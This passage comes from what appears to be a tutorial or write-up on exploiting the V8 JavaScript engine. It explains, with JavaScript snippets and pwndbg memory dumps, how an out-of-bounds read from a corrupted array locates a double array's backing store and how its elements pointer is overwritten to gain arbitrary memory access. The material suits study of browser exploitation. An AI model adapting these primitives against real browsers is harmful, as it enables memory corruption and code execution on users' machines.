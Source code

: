 `dblArrOffset` is offset of `OobDblArr` from either `OobObjArr` or `OobDblArr2`. Old value is saved. We overwrite the `elements` member of `OobDblArr2` with the `addr`. Now, we store the address at `oobDblArr2[0]` which is `addr + 0x8`

```js
var dblIndex = searchDblArrIndex(arrAddr, corruptedArr, 0x40504000/2, 0x40508000/2, arrAddr + 0x1000);
```

We have large OOB read from `corruptedArr`. We try to find address of `oobDblArr`'s element object. We do this by starting our search from an address (can be
see through DebugPrint(`oobDblArr`). This gives idea of where to start). We find the offset of that address from `corruptedArr`. We search the memory for numbers stored in `oobDblArr`. One thing to note is that `oobDblArr` is array of type double because it has a double precision number (1.5) in it. 0x41 is represented as 0x0000000040504000 and 0x42 is 0x0000000040508000. If we do DebugPrint(`corruptedArr`), we see that `corruptedArr` is SMI type array. Each index in `oobDblArr` jumps 8-bytes and for `corruptedArr` it jumps 4-bytes. We run the loop and find the numbers but these numbers also appear before the `oobDblArr`. So, we need to run the loop again to find numbers at correct address.


As we can see `oobDblArr` is at address 0x020300042191, so we start our search from a little before that address, say 0x42191.

```bash
pwndbg> x/50wx 0x020300042191-1
0x20300042190:	0x0018e4c1	0x00000219	0x00000219	0x00182271
0x203000421a0:	0x00000901	0x0000000a	0x00000000	(0x40504000) // we need next one, not this
0x203000421b0:	0x00000000	0x40508000	0x00000000	0x40544000
0x203000421c0:	0x00000000	0x40548000	0x00000000	0x3ff80000
0x203000421d0:	0x0018ece5	0x00000219	0x000421e9	0x0000000a
0x203000421e0:	0x0000117d	0x00207c81	0x00000901	0x0000000a
```

```js
corruptedArr[dblIndex + 3] = 1;
```

We write 1 to `dblIndex + 3` because our first find of DblArrIndex is bogus and we patch it so we don't find it again in the search.

```bash
pwndbg> x/50wx 0x1ca000042191-1
0x1ca000042190:	0x0018e4c1	0x00000219	0x00000219	0x00182271
0x1ca0000421a0:	0x00000901	0x0000000a	0x00000000	(0x00000002) replace by 2.
0x1ca0000421b0:	0x00000000	0x40508000	0x00000000	0x40544000
0x1ca0000421c0:	0x00000000	0x40548000	0x00000000	0x3ff80000
0x1ca0000421d0:	0x0018ece5	0x00000219	0x000421e9	0x0000000a
0x1ca0000421e0:	0x0000117d	0x00207c81	0x00000901	0x0000000a
...
```

#### Note: The memory has 2 because SMIs have LSB as 0. So, to make sure LSB is 0, SMIs are doubled before storing in memory and halved when accessed from memory.

```js
let dblAddr = indexToAddr(dblIndex);
dblIndex = searchDblArrIndex(dblAddr, corruptedArr, 0x40504000/2, 0x40508000/2, dblAddr + 0x1000);
console.log("oobDblAddr: " + indexToAddr(dblIndex).toString(16));
var oobDblIndex = dblIndex;
corruptedArr[dblIndex + 3] = 0x41;
```
